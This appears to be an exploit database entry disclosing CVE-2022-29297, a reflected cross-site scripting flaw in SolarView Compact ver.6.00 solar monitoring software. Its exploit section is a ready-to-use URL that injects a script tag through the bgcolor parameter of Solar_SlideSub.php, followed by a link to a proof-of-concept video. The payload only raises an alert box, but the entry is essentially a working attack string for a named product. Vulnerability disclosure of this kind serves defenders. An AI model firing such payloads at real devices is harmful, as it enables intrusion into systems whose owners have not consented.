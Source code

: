 
# Exploit Title: SolarView Compact ver.6.00 - Reflected xss
# Date: 2022-05-15
# Exploit Author: Ahmed Alroky
# Author Company : AIactive
# Version: ver.6.00
# Vendor home page : https://www.contec.com/
# Authentication Required: No
# CVE : CVE-2022-29297

# Tested on: Windows


# Exploit

http://IP_ADDRESS/Solar_SlideSub.php?bgcolor=greenx%22%3E%3Cscript%3Ealert(9)%3C/script%3E%3C%22

# Poc
https://drive.google.com/file/d/1utFl0NK2FzWhmH5g6urBzHPgB0RsotQe/view